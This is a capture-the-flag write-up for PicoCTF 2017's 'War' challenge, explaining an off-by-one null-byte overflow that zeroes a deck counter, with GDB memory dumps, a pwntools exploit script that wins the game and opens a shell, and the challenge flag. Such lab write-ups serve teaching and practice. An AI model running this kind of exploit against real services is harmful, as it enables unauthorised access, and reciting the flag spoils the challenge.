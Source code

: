 # PicoCTF_2017: War

**Category:** Master
**Points:** 125
**Description:**

>Win a simple [Card Game](war). [Source](war.c). Connect on shell2017.picoctf.com:44698.

**Hint:**

>Bugs typically happen in groups. If you find one, what does it allow you to do?

## Write-up
Before I start, I would like to say that it took me 6 days for this challenge. For how surprisingly easy it was to solve at the end. Shame on me but now I shall redeem myself by shortening 6 days of agony to a writeup.

Firstly, we need to identify the bugs in this challenge, as it doesn't appear that there's anything buffer overflowable. By doing some rubber-ducking, we come across this function `readInput()`. I've done some rubber ducking here to give you a better view of things

    //Reads input from user, and properly terminates the string
    unsigned int readInput(char * buff, unsigned int len){ // For an example if betBuffer with len 8
        size_t count = 0;
        char c;
        while((c = getchar()) != '\n' && c != EOF){
            if(count < (len-1)){ // While count is 6 or less
                buff[count] = c;
                count++; // Count ++ means count becomes 7 here
            }
        }
        buff[count+1] = '\x00'; // Inputting a null byte to index 8? O.o <- THIS IS ARRAY OVERFLOW111!!!!11!1
        return count;
    }

Interesting, now we have the ability to erase one extra byte of anything after a buffer. Completely useless. Or is it? If we take a look at the two buffers that `readInput()` would read to, we come across these two buffers.

    char betStr[BETBUFFLEN];
    card * oppCard;

and
    
    char name[NAMEBUFFLEN];
    size_t deckSize;

Since we aren't too sure if the pointer for `oppCard` actually comes after the buffer in this scenario, let's target the `name` buffer. This calls for `GDB`.

First, let's try some input of just 31 bytes, to see a non-interrupted or overflowed memory region.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41410000  0x1a000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

The memory is in big-endian for viewing pleasure. So, we see a bunch of `41`s, representing our `A`. This is very helpful, and we also see a `1a` right afterwards. `1a` in hex, also equates to `26` in decimal. The only thing that's `26` in the code, is `deckSize`. Great, that matches up with our code. Now let's try breaking the array by 1.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0x00000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Where's the `1a` now? Turns out, it's been completely overwritten by the null byte. What does this mean? Where's the flag? Well, if there's a null byte for decksize, this part of the code helps us.

    //TODO: Implement card switching hands. Cheap hack here for playability
    gameData.deckSize--;
    if(gameData.deckSize == 0){
        printf("All card used. Card switching will be implemented in v1.0, someday.\n");
        exit(0);
    }

So, in this event, when we try to play a card, the memory region breaks because `0x0000000000000000` minus `1` = `0xffffffffffffffff`. Win.

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0xffffffff  0xffffffff
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Theoretically, this means we are free to keep playing, since we are only limited by 100 coins or deck size of `26` which is now astronomically too big. So let's try to keep betting 1 till something happens. After the initial `26` cards, we are now left with 0 cards and this happens.

```python
 from pwn import *
HOST, PORT = 'shell2017.picoctf.com',7253
r = remote(HOST, PORT)
r.recv()
username = b'\x03' * 100
r.sendline(username)
r.recv()
for i in range(60):
    r.sendline(b'01')
    log.info(r.recv())

r.sendline(b'40')
log.info(r.recv())
r.sendline(b'80')
log.info(r.recv())
r.sendline(b'160')
log.info(r.recv())
r.sendline(b'200')
log.info(r.recv())
r.interactive()
r.close()
```
```text
[*] you bet 160.
    The opponent has a 0 of suit 0.
    You have a 3 of suit 3.
    You won? Hmmm something must be wrong...
    You actually won! Nice job
    
    You have 336 coins.
    How much would you like to bet?
[*] Switching to interactive mode
you bet 200.
The opponent has a 0 of suit 0.
You have a 3 of suit 3.
You won? Hmmm something must be wrong...
You actually won! Nice job
You won the game! That's real impressive, seeing as the deck was rigged...
/bin/sh: 0: can't access tty; job control turned off
$ $ ls
flag.txt
war
war_no_aslr
xinetd_wrapper.sh
$ $ cat flag.txt
403e07a54ec83113feb1e18c94d65704
```

Therefore, the flag is `403e07a54ec83113feb1e18c94d65704`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEzMDk4MDE4ODldfQ==
-->